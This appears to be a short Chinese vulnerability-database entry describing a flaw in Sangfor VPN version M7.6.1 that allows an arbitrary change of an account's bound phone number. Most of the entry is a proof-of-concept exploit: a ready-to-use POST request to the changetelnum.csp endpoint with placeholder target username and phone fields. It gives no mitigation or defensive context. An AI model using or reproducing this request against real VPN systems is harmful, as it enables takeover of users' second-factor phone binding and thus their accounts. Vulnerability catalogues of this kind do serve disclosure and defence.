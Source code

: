 ```yaml
---
title: '深信服VPN任意修改绑定手机'
date: Thu, 17 Sep 2020 04:47:25 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

M7.6.1

### 漏洞POC

```html
https://127.0.0.1/por/changetelnum.csp?apiversion=1 
POST：
newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1 

```